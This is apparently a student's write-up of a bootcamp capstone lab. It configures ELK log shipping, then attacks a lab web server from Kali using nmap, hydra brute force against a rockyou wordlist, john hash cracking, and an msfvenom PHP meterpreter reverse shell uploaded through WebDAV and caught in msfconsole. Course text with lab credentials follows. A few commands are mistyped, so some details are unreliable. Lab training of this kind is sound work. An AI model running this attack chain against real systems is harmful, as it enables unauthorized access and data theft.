


## Network Architechture
---

There are three principal  Machines in the network

1) Kali VM - The Attacker machine

2) Capstone VM - The Victim machine

3) ELK VM - For monitoring and generating logs

## Stage 1: Configuring the Capston VM so it can send the attack logs to ELK stack
---

- Setting up **filebeat** ships log data (simplifies, parsing, visualization of log formats) from server to ELK Stack or monitoring VM

- `filebeat modules enable apache`
- `filebeat setup`

- Setting up **metricbeat** ships metrics data from server (e-g MongoDB, MYSQL, Apache) to ELK Stack or monitoring VM

- `metricbeat modules enable apache`
- `metricbeat setup`

- Setting up **packetbeat** integrates Elasticsearch and Kibana to provide realtime analysis 

- `packetbeat setup`

- Restarting services after initial installation

- `systemctl restart filebeat`
- `systemctl restart metricbeat`
- `systemctl restart packetbeat`

## Stage 2: Attacking the Capsone VM using the VM Kali Linux
---

- Stages of Engagement: The commands below are run on the Kali Linux. In this case the Hacker's machine (Kali Linux) is already part of the network. That is why there is no need to perform OSNIT/Recon-NG in this project as we are not targeting any external network or website

a) **Information Gathering**: Obtaining info regarding the network, e-g ip addresses etc

- `ifconfig` to discover the network ip address and range

- `netdiscover` to determine the active hosts on the network- The actual command is below

- `netdiscover -r 192.168.1.255/16`

- Now this information is very revealing. Based on the infomration so far we can deduce:

- The network Ip range is `192.168.1.0/16`. This is because the net mask is `255.255.255.0` Which indicates that only the last 8 bits are variable for the assigned Ip ranges.

- In addition 3 active hosts are noted. Note that `ifconfig` earlier revalied the ip address of the Kali VM to be `192.168.1.8` which is not listed as the active host after running `netdiscover`

- Now the question is which of these is the Capstone (the companiy's webserver I am hacking). 

- If I type the ip address `192.168.1.105`, it reveals a webpage to the company's server, so this IP is the Capstone VM. See below

- There is no formal index.html page, and the companies directories are open -this is a significant vulnerability

- Navigating to the folder directories makes it even worse and keeps pointing at some secret_folder

- Typing `192.168.1.105/company_folders/secret_folder` as suggested, exposes further infomration about a potential person who maybe one of the admins. 

- We now have a potential username `ashton` who's password we can attempt to later crack by a brute force attack 

- So far I am able to gather basic details about the network and now have a clue about a potential admin username

b) **Scanning**

- Checking the hosts again with ping: `nmap -pn 192.168.1.255/16`

- Scanning for open ports and Version: `nmap -sV 192.168.1.1-105`

- Checking for OS: `nmap -sS -A 192.168.1.105`

- Typing the ip address of the victim in the browser can reveal folder directories on the "HTML page" if there are security loop holes such as no formal index.html. The directories may or may not be password protected. 

- gives information about the company_folders and secret_folder and we find that they are password protected

- Alternatively If you know the path to a file, you can attempt to download it directly  `wget 192.168.1.105/company_folders/customer_info/customers.txt`

- `wget 192.168.1.105/meet_our_team/ashton.txt`

- Or run an nmap script reveal hidden files and directories : `nmap --script http-enum -p80 192.168.1.105`. Here `http-enum` is an NSE (Nmap scripting engine) script provides insights regarding the types of servers and applications in use within the subnet. 

- These also inform that the username is Ashton for these password protected folders

- Scanning for directories using dirb

`dirb http://192.168.1.105/ /usr/share/wordlists/dirb/common.txt`

c) **Exploitation**

- Using hydra to brute force ashton's pasword. username: `ashton`

- Unziping the worlist to try to bruteforce attack. Note that in kali linux there is a pre-stored wordlist `/usr/share/wordlists` if it is zipped then it must be unzipped before it can be used

- `gunzip /usr/share/wordlists/rockyou.txt.gz`

- Hydra brute force action: `hydra -l ashton -p /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder/` Here http-get will go to the website which is the ip address that we have already provided and will navigate to the path like: `http-get 192.168.1.105/company_folders/secret_folder/`

- On accessing the secret folder, a new username noted: ryan, need to crack its hash that is also provided in the secret folder

- Crack hash with john the ripper: `john --format=raw-md5 ryans_hash`

- Now access Webdav with the username ryan and the cracked password : by typing `dav://192.168.1.105/webdav/` in browser

- Msfvenom to create a reverse shell script in Kali Linux (hacker's VM)

- `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1.90 LPORT=666 -f raw > shell.php`

- Once shell.php is generated then you can copy it into `dav://192.168.1.105/webdav/` from the browser - this can be done from Kali Linux. In other words you will be 

- Now in Kali Linux run **Metasploit** and run the following commands to prepare for listening and retrograde connection of the  Capstone VM(victim) with Kali Linux. Run the following commands:

- `msfconsole`
- `set payload php/meterpreter/reverse_tcp`
- `set lhost 192.168.1.90`
- `set lport 666`
- `run`

- Run the malacious shell script on the Victim (Capstone) VM, you can actally run this from Kali linux by typing ` 192.168.1.105/webdav/shell.php` into the browser - this will run the script on the Capstone server

- This will open up a meterpreter shell

d) **Post-exploitation**

- Find the flag with meterpreter

- `find / -name flag.txt 2>/dev/null`

e) **Reporting Vulnerabilities**

### Lab Environment

Click here to view the lab environnement.

 

In this unit, you will be using the Web Vulns lab environment located in Windows Azure Lab Services. RDP into the Windows RDP host machine using the following credentials:

Username: `azadmin`
Password: `p4ssw0rd*`

Open the Hyper-V Manager to access the nested machines:

- ELK machine credentials:

    - Username: vagrant
    - Password: vagrant

**Next Week's Lab Environment**: At the end of 20.3, we will set up a new Azure Lab Environment for the Forensics unit.  

### What to Be Aware Of:

- Day 1 can be completed as a competition between the students. If you wish to do so, split the students into teams and have them compete to win a prize! The first team to complete _all_ the steps wins.

- Let students know that to complete Day 2 they must complete steps 1-6 from Day 1. Finding the flag isn't critical, but students need to progress past the point of uploading the reverse shell script.

- Throughout Day 2, it is important that the students take screen shots of each step they complete. These screen shots will be used in their Day 3 Report.

### Security+ Domains

This unit covers portions of the following domains on the Security+ exam:

    
Click here to see some Security+ Domains that are relevant to this project.

  

- Types of attacks
- Indicators of compromise
- Penetration testing concepts
- Vulnerability scanning concepts
- Impact of vulnerabilities
- Security assessment tools 

 

 

For more information about these Security+ domains, refer to the following resource: [Security+ Exam Objectives](https://www.comptia.jp/pdf/Security%2B%20SY0-501%20Exam%20Objectives.pdf)

### Additional Reading and Resources

 

 Click here to view additional reading materials and resources. 

 

Day 1:

- [Red Team Vs Blue Team](https://securitytrails.com/blog/cybersecurity-red-blue-team)
- [What is Vulnerability Scanning](https://www.esecurityplanet.com/network-security/vulnerability-scanning.html)
- [What is a reverse shell](https://www.acunetix.com/blog/web-security-zone/what-is-reverse-shell/)

Day 2: 

- [Kibana: Discover Documentation](https://www.elastic.co/guide/en/kibana/7.7/discover.html)
- [Kibana: Visualize Documentation](https://www.elastic.co/guide/en/kibana/7.7/visualize.html)
- [Elasticsearch Reference Documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/index.html)

---

### Looking Forward 

In the next week, we will cover the specialized field of digital forensics. We will cover a new set of skills and tools that allow us to analyze evidence on digital technology after an security incident or crime occurs.  

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
